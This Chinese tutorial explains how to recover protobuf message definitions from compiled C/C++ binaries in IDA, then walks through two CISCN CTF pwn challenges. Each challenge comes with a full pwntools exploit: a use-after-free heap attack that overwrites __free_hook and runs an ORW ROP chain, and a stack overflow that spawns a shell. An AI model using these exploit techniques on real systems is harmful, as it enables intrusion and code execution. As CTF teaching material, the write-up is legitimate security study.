# 二进制文件中protobuf结构分析-先知社区

> **来源**: https://xz.aliyun.com/news/17452  
> **文章ID**: 17452

---

# protobuf

1. Protocol Buffers，是Google公司开发的一种`数据描述语言`，类似于XML能够将结构化数据序列化，可用于数据存储、通信协议等方面。常用于跨平台和异构系统中进行RPC调用，`序列化和反序列`化效率高且体积比XML和JSON小得多，非常适合网络传输。为了能够和程序进行交互，我们需要先`逆向分析得到Protobuf结构体`，然后构造序列化后的Protobuf与程序进行交互。
2. 直接在github上下载即可：<https://github.com/protocolbuffers/protobuf>
3. 注意下载编译好后，可能要修该一下修改一下文件路径，第二行和第六行要是你编译后的文件（放到对应的路径下即可/lib/），不然会报错：
4. 上面的protc不支持c，所以这里还要安装一下c的库：github地址：<https://github.com/protobuf-c/protobuf-c>

```
tar -xzvf protobuf-c.tar.gz
cd protobuf-c
./configure && make
sudo make install
```

## 实例：

1. protoc例子，example 后面会和类名相关，后面会生成两个文件message.pb-c.c，message.pb-c.h：

```
syntax = "proto3";
package example;

message Person {
    string name = 1;
    int32 id = 2;
    string email = 3;
}
```

Example\_\_Person 类，.c文件中有一系列函数，序列化和反序列话的时候会使用，这里生成的结构中额外多了一个`ProtobufCMessage base` ，表示的是每个 Protobuf-C 消息结构体所包含的一个基础消息部分。这个基础消息部分提供了一些通用的元数据和函数，用于支持 Protobuf-C 的内部操作，如序列化（packing）、反序列化（unpacking）以及内存管理等（后面在调试的时候会看到这个位置指向了哪里）：ProtobufCMessage 结构体的内容

```
struct ProtobufCMessage {
    /** The descriptor for this message type. */
    const ProtobufCMessageDescriptor	*descriptor;
    /** The number of elements in `unknown_fields`. */
    unsigned				n_unknown_fields;
    /** The fields that weren't recognized by the parser. */
    ProtobufCMessageUnknownField		*unknown_fields;
};
```

额外关注两个结构体，这里包含了前面文件中定义的变量的 所有信息，名称、id、tabel，type等：

```
static const ProtobufCFieldDescriptor example__person__field_descriptors[3] =
    {
        {
            "name",
            1,
            PROTOBUF_C_LABEL_NONE,
            PROTOBUF_C_TYPE_STRING,
            0, /* quantifier_offset */
            offsetof(Example__Person, name),
            NULL,
            &protobuf_c_empty_string,
            0,            /* flags */
            0, NULL, NULL /* reserved1,reserved2, etc */
        },
        {
            "id",
            2,
            PROTOBUF_C_LABEL_NONE,
            PROTOBUF_C_TYPE_INT32,
            0, /* quantifier_offset */
            offsetof(Example__Person, id),
            NULL,
            NULL,
            0,            /* flags */
            0, NULL, NULL /* reserved1,reserved2, etc */
        },
        {
            "email",
            3,
            PROTOBUF_C_LABEL_NONE,
            PROTOBUF_C_TYPE_STRING,
            0, /* quantifier_offset */
            offsetof(Example__Person, email),
            NULL,
            &protobuf_c_empty_string,
            0,            /* flags */
            0, NULL, NULL /* reserved1,reserved2, etc */
        },
};
```

中包含了 上面 变量的个数 和编译后Example\_\_Person结构的大小

```
const ProtobufCMessageDescriptor example__person__descriptor =
    {
        PROTOBUF_C__MESSAGE_DESCRIPTOR_MAGIC,
        "example.Person",
        "Person",
        "Example__Person",
        "example",
        sizeof(Example__Person),
        3,
        example__person__field_descriptors,
        example__person__field_indices_by_name,
        1, example__person__number_ranges,
        (ProtobufCMessageInit)example__person__init,
        NULL, NULL, NULL /* reserved[123] */
};
```

看一下 ProtobufCFieldDescriptor 和 ProtobufCMessageDescriptor 结构体的原型：

```
/**
 * Describes a single field in a message. 描述消息中的单个字段
 */
struct ProtobufCFieldDescriptor {
    /** Name of the field as given in the .proto file. */
    const char		*name;

    /** Tag value of the field as given in the .proto file. */
    uint32_t		id;		//唯一标识一个字段

    /** Whether the field is `REQUIRED`, `OPTIONAL`, or `REPEATED`. */
    ProtobufCLabel		label;

    /** The type of the field. */
    ProtobufCType		type;		//标识该字段的类型

    /**
     * The offset in bytes of the message's C structure's quantifier field
     * (the `has_MEMBER` field for optional members or the `n_MEMBER` field
     * for repeated members or the case enum for oneofs).
     */
    unsigned		quantifier_offset;	//表示该字段 在编译后的结构体中的偏移

    /**
     * The offset in bytes into the message's C structure for the member
     * itself.
     */
    unsigned		offset;

    /**
     * A type-specific descriptor.
     *
     * If `type` is `PROTOBUF_C_TYPE_ENUM`, then `descriptor` points to the
     * corresponding `ProtobufCEnumDescriptor`.
     *
     * If `type` is `PROTOBUF_C_TYPE_MESSAGE`, then `descriptor` points to
     * the corresponding `ProtobufCMessageDescriptor`.
     *
     * Otherwise this field is NULL.
     */
    const void		*descriptor; /* for MESSAGE and ENUM types */

    /** The default value for this field, if defined. May be NULL. */
    const void		*default_value;

    /**
     * A flag word. Zero or more of the bits defined in the
     * `ProtobufCFieldFlag` enum may be set.
     */
    uint32_t		flags;

    /** Reserved for future use. */
    unsigned		reserved_flags;
    /** Reserved for future use. */
    void			*reserved2;
    /** Reserved for future use. */
    void			*reserved3;
};


/**
 * Describes a message.	描述消息整个消息
 */
struct ProtobufCMessageDescriptor {
    /** Magic value checked to ensure that the API is used correctly. */
    uint32_t			magic;

    /** The qualified name (e.g., "namespace.Type"). */
    const char			*name;
    /** The unqualified name as given in the .proto file (e.g., "Type"). */
    const char			*short_name;
    /** Identifier used in generated C code. */
    const char			*c_name;
    /** The dot-separated namespace. */
    const char			*package_name;

    /**
     * Size in bytes of the C structure representing an instance of this
     * type of message.
     */
    size_t				sizeof_message;

    /** Number of elements in `fields`. */ //整个消息中 元素数个数
    unsigned			n_fields;
    /** Field descriptors, sorted by tag number. */ //字段描述符，按标签编号排序，指向第一个字段
    const ProtobufCFieldDescriptor	*fields;
    /** Used for looking up fields by name. */
    const unsigned			*fields_sorted_by_name;

    /** Number of elements in `field_ranges`. */
    unsigned			n_field_ranges;
    /** Used for looking up fields by id. */
    const ProtobufCIntRange		*field_ranges;

    /** Message initialisation function. */
    ProtobufCMessageInit		message_init;

    /** Reserved for future use. */
    void				*reserved1;
    /** Reserved for future use. */
    void				*reserved2;
    /** Reserved for future use. */
    void				*reserved3;
};
```

ProtobufCType 结构体(type) 指定了字段的类型：

```
typedef enum {
0		PROTOBUF_C_TYPE_INT32,      /**< int32 */
1		PROTOBUF_C_TYPE_SINT32,     /**< signed int32 */
2		PROTOBUF_C_TYPE_SFIXED32,   /**< signed int32 (4 bytes) */
3		PROTOBUF_C_TYPE_INT64,      /**< int64 */
4		PROTOBUF_C_TYPE_SINT64,     /**< signed int64 */
5		PROTOBUF_C_TYPE_SFIXED64,   /**< signed int64 (8 bytes) */
6		PROTOBUF_C_TYPE_UINT32,     /**< unsigned int32 */
7		PROTOBUF_C_TYPE_FIXED32,    /**< unsigned int32 (4 bytes) */
8		PROTOBUF_C_TYPE_UINT64,     /**< unsigned int64 */
9		PROTOBUF_C_TYPE_FIXED64,    /**< unsigned int64 (8 bytes) */
0xa		PROTOBUF_C_TYPE_FLOAT,      /**< float */
0xb		PROTOBUF_C_TYPE_DOUBLE,     /**< double */
0xc		PROTOBUF_C_TYPE_BOOL,       /**< boolean */
0xd		PROTOBUF_C_TYPE_ENUM,       /**< enumerated type */
0xe		PROTOBUF_C_TYPE_STRING,     /**< UTF-8 or ASCII string */
0xf		PROTOBUF_C_TYPE_BYTES,      /**< arbitrary byte sequence */
0x10	PROTOBUF_C_TYPE_MESSAGE,    /**< nested message */
} ProtobufCType;

```

ProtobufCLabel 结构(label) 指定了字段的性质：

```
typedef enum {
    /** A well-formed message must have exactly one of this field. */
    //格式正确的消息必须具有此字段
    PROTOBUF_C_LABEL_REQUIRED,

    /**
     * A well-formed message can have zero or one of this field (but not
     * more than one).
     */
    //格式正确的消息可以有零个或一个此字段（但不能超过一个）
    PROTOBUF_C_LABEL_OPTIONAL,

    /**
     * This field can be repeated any number of times (including zero) in a
     * well-formed message. The order of the repeated values will be
     * preserved.
     */
    //此字段可以在格式正确的消息中重复任意次数（包括零）。将保留重复值的顺序
    PROTOBUF_C_LABEL_REPEATED,

    /**
     * This field has no label. This is valid only in proto3 and is
     * equivalent to OPTIONAL but no "has" quantifier will be consulted.
     */
    //此字段没有标签。这仅在proto3中有效，等效于 OPTIONAL，但不查询"has"量词（proto3中没有has量词）。
    PROTOBUF_C_LABEL_NONE,
} ProtobufCLabel;
```

后面题目中要用到的 ProtobufCBinaryData 结构体：

```
struct ProtobufCBinaryData {
    size_t	len;        /**< Number of bytes in the `data` field. */
    uint8_t	*data;      /**< Data bytes. */
};
```

1. 用上面的message1.pb-c.h库来 写一个c程序，对信息进行序列化(pack)输出，并反序列化(unpack)：

```
#gcc message.pb-c.c test.c -o test -lprotobuf-c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "message.pb-c.h"

int main()
{
    // 创建一个 Person 消息实例
    Example__Person person = EXAMPLE__PERSON__INIT;

    // 设置消息字段
    person.name = strdup("John Doe");
    person.id = 1234;
    person.email = strdup("john.doe@example.com");

    // 序列化消息
    uint8_t buffer[1024]; // 假设1024字节足够存放序列化后的数据
    size_t len = example__person__pack(&person, buffer);

    // 打印序列化后的数据
    for (size_t i = 0; i < len; i++)
    {
        printf("%02X ", buffer[i]);
    }
    printf("
");

    // 反序列化消息
    Example__Person *new_person = example__person__unpack(NULL, len, buffer);

    // 访问反序列化后的消息字段
    printf("Name: %s
", new_person->name);
    printf("ID: %d
", new_person->id);
    printf("Email: %s
", new_person->email);

    // 清理
    free((void *)person.name);
    free((void *)person.email);
    example__person__free_unpacked(new_person, NULL);
    return 0;
}
```



1. 结合生成的.c文件，来逆向分析一下生成的test文件中的protoc结构：主要的逻辑如下，可以看到反序列化后，输出的name是从返回的`unpack_person + 0x18` 处取指针输出的看一下 ProtobufCMessageDescriptor 在ida中的结构，和.c文件中的一样，跟着fields字段来到一个字段的位置：name字段的ProtobufCFieldDescriptor结构体还原。根据上面的label和type结构体的信息

和源程序中.c文件中对name字段的描述刚好符合：





后面 id字段和email字段是一样的分析方法。

* label --> 3 --> PROTOBUF\_C\_LABEL\_NONE
* type --> 0xe --> PROTOBUF\_C\_TYPE\_STRING：
* offsetof --> 0x18 （这里和上面ida反编译的源代码中 name字段中0x18开始输出刚好符合）

1. 再来调试一下这个test程序，看是如何序列化和反序列化的：从这里开始序列化，看到传入的参数0x7fffffffddf0 指向的结构体是Example\_\_Person，结构体的原型是：

```
struct  Example__Person
{
  ProtobufCMessage base;
  char *name;
  int32_t id;
  char *email;
};
```

前0x18被解释成ProtobufCMessage结构体（上面有结构体原型），第一个descriptor字段指向了example\_\_person\_\_descriptor，后两个字段为空，接着就是name、id、email（所以ida在解释输出name字段时是从0x18偏移开始的，因为前面的0x18在编译后被其他信息占据了）：最后序列化输出的结构（为啥输出是这样就得看人家pack的内部实现了，这里能力有限就不深究了蛤）：这里开始反序列化，三个参数的解释如下：解码后返回了一个Example\_\_Person 结构体指针指向下面这段堆空间，这里观察就可以发现，内容和序列化之前一样，前面的0x18个位置留给了base字段，后续为name、id、email：

1. 综上，在ida中只要我们提取出了ProtobufCFieldDescriptor 结构体数组中每个元素的`name字段、id字段、label字段、type字段`，就能借助protoc得出原proto文件中各个字段的信息
2. 下面来看一下，一个proto源文件编译出的c和python是否能通用一个包：任然是刚才那个.proto源文件，来生成python包 ==> message\_pb2.py：

```
protoc --python_out=. message.proto
```

写一个python程序来验证一下:

```
import message_pb2

msg = message_pb2.Person()   # 生成对象,这里的函数名和.proto文件中的类名一样
msg.name = "John Doe"
msg.id = 1234
msg.email = "john.doe@example.com"
data = msg.SerializeToString()
print(data)
for i in range(len(data)):
    print("{:0>2}".format(hex(data[i])[2:]),end=" ")
```

这里直接看输出，和test序列化后的一模一样，所以我们可以`用python将数据序列化后，再用c程序来反序列化`（pwn比赛中一般都是这样） ：

1. 再看一下用.protoc源文件(和上面的一样)，来编译的`c++的代码`：

```
#g++ -o my_program test.cpp message.pb.cc `pkg-config --cflags --libs protobuf`

#include <iostream>
#include <iomanip>
#include <sstream>
#include <string>
#include "message.pb.h" // 确保这个头文件路径正确

int main()
{
    example::Person message; //包名和类名用.proto源文件中的
    message.set_id(123);
    message.set_name("Example");
    message.set_email("bkbqwq.com");

    // 序列化
    std::string serialized_data;
    if (!message.SerializeToString(&serialized_data))
    {
        std::cerr << "Failed to serialize the message." << std::endl;
        return -1;
    }

    // 打印序列化数据的十六进制表示
    std::cout << "Serialized data: ";
    for (size_t i = 0; i < serialized_data.size(); ++i)
    {
        std::cout << std::hex << std::setw(2) << std::setfill('0') << (int)(unsigned char)serialized_data[i];
        if (i != serialized_data.size() - 1)
        {
            std::cout << " ";
        }
    }
    std::cout << std::endl;

    // 反序列化
    example::Person new_message;
    if (!new_message.ParseFromString(serialized_data))
    {
        std::cerr << "Failed to parse the serialized data." << std::endl;
        return -1;
    }

    // 验证反序列化结果
    if (new_message.id() == 123 &&
        new_message.name() == "Example" &&
        new_message.email() == "bkbqwq.com")
    {
        std::cout << "Deserialization successful, data matches original." << std::endl;
    }
    else
    {
        std::cerr << "Deserialization failed, data does not match original." << std::endl;
    }

    return 0;
}
```

在生成的.cc文件中存在这个，包含了.proto原文见中的信息，name、id、email各个字段：并且在ida中找到了对应的区域：那么应该如何还原个字段的id、label、type，这里找了半天也没有找到关于这个字符数组的解释：这里时结合源文件分析出来的一些标签：

1. 再搞一个包含所有结构的文件测试一下，用proto2生成cpp文件来看一下，.proto源文件如下，label就只安排了required和optional：

```
syntax = "proto2";

package example;

enum SomeEnum {
   VALUE_A = 0;
   VALUE_B = 1;
}

message Person {
   required int32    id    = 1;
   required string   name  = 2;
   required string   email = 3;
   required int64    id1   = 4;
   optional uint32   id2   = 5;
   optional uint64   id3   = 6;
   optional sint32   id4   = 7;
   optional sint64   id5   = 8;
   optional fixed32  id6   = 9;
   optional fixed64  id7   = 10;
   optional sfixed32 id8   = 11;
   optional sfixed64 id9   = 12;
   optional bool     id10  = 13;
   optional string   id11  = 14;
   optional bytes    id12  = 15;
   optional float    id13  = 16;
   optional double   id14  = 17;
   optional SomeEnum id15  = 18;
   optional group    Id16 = 19 { //这里组名要大写
     // 在这里定义组内的字段
     optional int32 subfield1 = 20;
     optional string subfield2 = 21;
   }
}
```

来看一下生成的.cc文件，这里与proto3有一个差异就是这个字符串的`结尾没有proto2`：，而proto3那个字符串的`结尾有proto3` （这个应该可以用来区别文件是proto2还是proto3）：看一下ida的反汇编，根据`.proto的源文件个字段之间的差异`，和`ida中的差异`来推测一下ida中的标签：首先空一个0x18，`接着表示id`、再空一个0x20，`接着表示label`，再空一个0x28，`接着表示type` ：这里对照还原一下label值对应的字段性质，和type值对应的字段类型，最后的还原如下。有部分位置空出来，应该时还有别的别的类型：

```
label：
1 --> optional
2 --> required
3 --> repeated

type:
1   --> double
2   --> float
3   --> int64
4   --> uint64
5   --> int32
6   --> fixed64
7   --> fixed32
8   --> bool
9   --> string
0xa --> group
0xb --> MESSAGE
0xc --> bytes
0xd --> uint32
0xe --> enum
0xf --> sfixed32
0x10 --> sfixed64
0x11 --> sint32
0x12 --> sint64
```

和这里的一样，都能对的上，所以字段位置分析的时对的：

1. 另外可以结合ida的中的个字段和.proto源文件分析一下`enum和group`这两个类型，这里就不多分析了，给一张在ida中的图看看：Id16 group：id15 enum：
2. 最后其实我们确定了这个ida中的结构之后，可以写idapython直接一键提取出所以字段的id、label、type，将上面分析的结果作为一个表后，根据ida中的值直接利用脚本一键生成.proto的源文件，当然使用pbtk工具跑也是一样的。

## 例题1：[CISCN 2023 初赛]StrangeTalkBot

题目地址：[[CISCN 2023 初赛]StrangeTalkBot | NSSCTF](https://www.nssctf.cn/problem/4059)

### 分析：

1. 这里可以直接看到ProtobufCMessageDescriptor结构体的信息，肯定是proto的题，函数的作用肯定就是反序列化了：这里我将分析的结构体直接导入进去了：根据field这段，定位到消息的第一个字段actionid：可以得到该字段的id、label、type，这里offset是0x18，所以ida反编译出来的msg是从0x18偏移开始的：

继续分析后面3个字段可以还原出.proto源文件：

```
syntax = "proto2";
package bkbqwq;
message devicemsg {
  required sint64 actionid = 1;
  required sint64 msgidx = 2;
  required sint64 msgsize = 3;
  required bytes msgcontent = 4;
}
```

用python打包成库即可：

```
protoc --python_out=. bkb.proto
```

* id --> 1
* label --> 0 --> PROTOBUF\_C\_LABEL\_REQUIRED
* type --> 4 --> PROTOBUF\_C\_TYPE\_SINT64

1. proto还原后直接分析sub\_155D函数，仍然是菜单题目，限制了chunk的下标<0x21，和chunk的大小<0xf1，额外注意这里申请的chunk大小如果`写入的data数据大小大于申请的chunk大小`，就会以data大小为主来申请chunk：主要的漏洞再delete中，free后清空时，清错了，所以存在UAF漏洞：

### 思路：

1. 利用unsorted bin泄漏libc地址、和堆地址 --> 修改next指针，申请到free\_hook，覆盖指向gadget --> 在堆上伪造三个东西：ORW、setcontext + 61 栈迁移时寄存器传参、触发free\_hook时gadget 完成rdi 到 rdx 的转换 --> free前面伪造的堆 触发攻击

### 利用：

1. 完整EXP，这里就不细致调试了，这题主要了解如何根据ida逆向出.proto源文件：

```
from pwn import *
import bkb_pb2
context(os='linux', arch='amd64', log_level='debug')
def debug():
    gdb.attach(p)

choose = 1

if choose == 1 :    # 远程
    success("远程")
    p = remote("node4.anna.nssctf.cn",28888)
    libc = ELF('./lib/libc_2.31-0ubuntu9.9_amd64.so')
    # elf = ELF("./pwn")
else :              # 本地
    success("本地")
    p = process("./pwn")
    libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')
    # ld = ELF("ld.so") 
    # elf = ELF("./pwn")


def add(index,size,content):
    msg = bkb_pb2.devicemsg()       # 生成对象
    msg.actionid = 1
    msg.msgidx = index
    msg.msgsize = size
    msg.msgcontent = content
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())

def edit(index,content):
    msg = bkb_pb2.devicemsg()
    msg.actionid = 2
    msg.msgidx = index
    msg.msgsize = len(content)
    msg.msgcontent = content
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())

def show(index):
    msg = bkb_pb2.devicemsg()
    msg.actionid = 3
    msg.msgidx = index
    msg.msgsize = 7
    msg.msgcontent = b'useless'
    p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())

def free(index):
    msg = bkb_pb2.devicemsg()
    msg.actionid = 4
    msg.msgidx = index
    msg.msgsize = 7
    msg.msgcontent = b'useless'
    p.sendafter(b'now: ', msg.SerializeToString())

# 泄漏libc地址
for i in range(6):
    add(i,0xf0,b"./flag\x00")
add(7,0xf0,b"FFFF")     # 用来泄漏libc地址
add(6,0xf0,b"FFFF")

for i in range(8):
    free(i)

show(7)
p.recv()
addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base = addr - libc.symbols["__malloc_hook"] - 0x70
success("libc_base ==>" + hex(libc_base))

#计算__free_hook和system地址
setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
system_addr        = libc_base + libc.sym["system"]
IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
IO_wfile_jumps_addr= libc_base + libc.sym["_IO_wfile_jumps"]
IO_2_1_stderr_addr= libc_base + libc.sym["_IO_2_1_stderr_"]
free_hook_addr= libc_base + libc.sym["__free_hook"]

# rtld_global_addr   = ld_base + ld.sym["_rtld_global"]
# IO_wfile_jumps_addr = libc_base + 0x1E4F80

success("system_addr        ==>" + hex(system_addr))
success("setcontext_addr    ==>" + hex(setcontext_addr))
success("IO_2_1_stdout_addr ==>" + hex(IO_2_1_stdout_addr))
success("IO_list_all_addr   ==>" + hex(IO_list_all_addr))
success("IO_wfile_jumps_addr==>" + hex(IO_wfile_jumps_addr))
success("free_hook_addr     ==>" + hex(free_hook_addr))
success("IO_2_1_stderr_addr ==>" + hex(IO_2_1_stderr_addr))

open_addr = libc.sym['open']+libc_base
read_addr = libc.sym['read']+libc_base
write_addr= libc.sym['write']+libc_base
mmap_addr = libc.sym['mmap'] +libc_base
writev_addr = libc_base + libc.sym['writev']

# 泄漏堆地址
show(0)
p.recv()
addr = u64(p.recvuntil(b"\x55")[-6:].ljust(8,b'\x00'))
heap_addr = addr - 0x10
success("heap_addr ==>" + hex(heap_addr))
pause()

# ========== ORW ==========

pop_rdi_ret     = libc_base + 0x0000000000023b6a
pop_rdx_r12_ret = libc_base + 0x0000000000119211
pop_rax_ret     = libc_base + 0x0000000000036174
pop_rsi_ret     = libc_base + 0x000000000002601f
# pop_rcx_rbx_ret = libc_base + 0x00000000000fc104
# pop_r8_ret = libc_base + 0x148686
ret= libc_base + 0x000000000002601f+1

# ORW
syscall = read_addr+14
flag = heap_addr+0x2F0

# open(0,flag)
orw =p64(pop_rdi_ret)+p64(flag)
orw+=p64(pop_rsi_ret)+p64(0)
orw+=p64(pop_rax_ret)+p64(2)
orw+=p64(syscall)
# orw =p64(pop_rdi_ret)+p64(flag)
# orw+=p64(pop_rsi_ret)+p64(0)
# orw+=p64(open_addr)

# read(3,heap+0x1010,0x30) 
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(read_addr)     


# write(1,heap+0x1010,0x30)
orw+=p64(pop_rdi_ret)+p64(1)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(write_addr)
orw+=b"./flag\x00"
add(5,0xf0,orw)    # 填入ORW

# 申请chunk到free_hook 天入gadget 并准备chunk进行栈迁移
new_chunk = heap_addr + 0xD20
gadget_rdi_rdx = 0x0000000000151990 + libc_base

edit(6,p64(free_hook_addr-0x8))     #修改next指针
payload = p64(0) + p64(new_chunk) + p64(0)*2 + p64(setcontext_addr)
payload = payload.ljust(0xa0,b"\x00")
payload += p64(heap_addr + 0x11F0) + p64(ret)

add(9,0xf0,payload)
add(10,0xf0,p64(0) + p64(gadget_rdi_rdx))       # 修该free_hook

free(9)    # 触发
p.interactive()
```

## 例题2：[CISCN 2024]protoverflow

### 分析：

1. 这是一个c++程序，我们直接定位到对应的字段，根据ida中的内容来还原.proto源文件：直接手撕ida，还原出.proto源文件如下，生成python包后就能直接使用：

```
syntax = "proto2";
package bkb;
 
message devicemsg {
  optional string name = 1;
  optional string phoneNumber = 2;
  required bytes buffer = 3;
  required uint32 size = 4;
}
```

1. 进入主要函数查看，就是一个简单的栈溢出，完整的EXP：

```
from pwn import *
import lzl_pb2
context(os='linux', arch='amd64', log_level='debug')

def debug():
    gdb.attach(p)

choose = 0

if choose == 1 :    # 远程
    success("远程")
    p = remote("node4.anna.nssctf.cn",28888)
    libc = ELF('./lib/libc_2.31-0ubuntu9.9_amd64.so')
    # elf = ELF("./pwn")
else :              # 本地
    success("本地")
    p = process("./pwn")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    # ld = ELF("ld.so") 
    # elf = ELF("./pwn")

def create_payload(name,phoneNumber,buffer,size):
    msg = lzl_pb2.protoMessage()
    msg.name = name
    msg.phoneNumber = phoneNumber
    msg.buffer = buffer
    msg.size = size
    return msg.SerializeToString()

p.recvuntil(b"Gift: ")
libc_base = eval(p.recv(14)) - libc.symbols["puts"]
success("libc_base  ==>"+hex(libc_base))

system_addr = libc_base + libc.sym["system"]
sh_addr = libc_base + next(libc.search(b"/bin/sh"))
success("system_addr==>"+hex(system_addr))
success("sh_addr==>"+hex(sh_addr))

pop_rdi = 0x0000000000028215 + libc_base
pb = b"a"*(0x210+8) + p64(pop_rdi+1) + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
payload = create_payload("lzl","6",pb,len(pb))
p.send(payload)

p.interactive()
```

成功拿到本地的shell：

1. 本体主要还是在于手撕ida，还原.proto文件。
2. 一些快速提取.proto文件的工具：ptbk。这里提供一个半自动化的idapython脚本还原结构体（仅限c语言）

```
from idc import *

type_protoc = {
    0		:"INT32",      
    1		:"SINT32",    
    2		:"SFIXED32", 
    3		:"INT64",      
    4		:"SINT64",    
    5		:"SFIXED64",   
    6		:"UINT32",    
    7		:"FIXED32",    
    8		:"UINT64",     
    9		:"FIXED64",     
    0xa		:"FLOAT",      
    0xb		:"DOUBLE",     
    0xc		:"BOOL",       
    0xd		:"ENUM",     
    0xe		:"STRING",
    0xf		:"BYTES",       
    0x10	:"MESSAGE"}

label_protoc = {
    0:"REQUIRED",
    1:"OPTIONAL",
    2:"REPEATED",
    3:"NONE_proto3"
}

# ============ 给定输入 ============
## 第一个元素的起始地址
start_addr = 0x000000000000BAE0
## 元素的个数
count = 5


for i in range(count):
    id = get_wide_byte(start_addr+8)
    label = get_wide_byte(start_addr+8+4)
    type = get_wide_byte(start_addr+8+8)
    name_addr = get_wide_dword(start_addr)
    name = get_strlit_contents(name_addr).decode()
    print(label_protoc[label].lower() + "  " + type_protoc[type].lower() + "  " + name + " = " + str(id) + ";")
    start_addr += 72		# 一个结构体的步长

print("done")
```

​
